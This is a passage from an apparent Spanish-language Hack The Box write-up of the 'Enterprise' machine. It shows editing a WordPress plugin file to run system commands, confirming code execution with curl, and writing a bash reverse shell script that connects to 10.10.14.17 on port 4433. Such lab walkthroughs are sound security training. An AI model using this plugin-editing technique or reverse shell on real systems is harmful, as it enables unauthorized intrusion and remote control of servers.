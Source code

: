 Seleccionamos ahora el plugin **lcars** (donde esta la flecha 😜) y damos clic en **Select**:

![112page80_wpAdmin_plugins_lcars](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112page80_wpAdmin_plugins_lcars.png)

Perfecto, vemos los 3 archivos con los que ya jugamos y su contenido, solo que ahroa tenemos la posibilidad de editarlos, validemos que usuario esta ejecutando el servicio web, usare `lcars.php`:

```php
...
// need to make it secure

system("whoami");

?>
```

Clic en **Update File**, obtenemos **File edited successfully.** y vamos al archivo en la web:

```bash
❭ curl -s http://enterprise.htb/wp-content/plugins/lcars/lcars.php
www-data
```

Listo, confirmamos ejecucion remota de comandos, ahora creemonos un archivo que contenga lo que queremos que ejecute el sistema, asi se nos hace más facil movernos entre comandos sin tener que modificar el plugin cada vez:

```bash
❭ cat rev.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.17/4433 0>&1
```
